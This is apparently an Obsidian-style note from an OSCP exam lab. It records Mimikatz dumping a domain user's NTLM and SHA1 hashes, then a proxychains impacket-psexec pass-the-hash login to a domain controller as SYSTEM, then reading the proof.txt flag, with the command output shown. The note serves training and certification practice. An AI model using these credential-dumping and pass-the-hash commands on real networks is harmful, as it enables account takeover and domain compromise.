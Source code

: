 Mimikatz Privilege Debug
![[mimikatz privilege debug.png]]

- dumping credentials
```
mimikatz # sekurlsa::logonpasswords

mimikatz # 

mimikatz # 

Authentication Id : 0 ; 190752 (00000000:0002e920)
Session           : Interactive from 1
User Name         : John.Howell
Domain            : OSCP
Logon Server      : DC01
Logon Time        : 4/12/2023 10:29:19 PM
SID               : S-1-5-21-3248544096-1843048206-1379434323-1116
	msv :	
	 [00000003] Primary
	 * Username : John.Howell
	 * Domain   : OSCP
	 * NTLM     : 859ae666977bdfcb72314492ac845a75
	 * SHA1     : b96652501577164f27b2beaebd78954b270e9b91
	 * DPAPI    : 683ab27925577dde06471f9e64481e93

```



![[dumped john.howell credentials.png]]

psexec'ing onto Domain Controller
```shell
#worked!
proxychains4 impacket-psexec oscp.exam/John.Howell@172.16.118.100 -hashes :859ae666977bdfcb72314492ac845a75
```

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/on dc as system.png]]


![[DC system info.png]]

 3rd proof.txt - domain - screenshot yes
```shell
# domain proof.txt
C:\Users\Administrator\Desktop> type proof.txt
e0f9e49a7d13a4bbb5d5583266a6acf1

C:\Users\Administrator\Desktop> ip a
'ip' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\Administrator\Desktop> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.118.100
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.118.254

```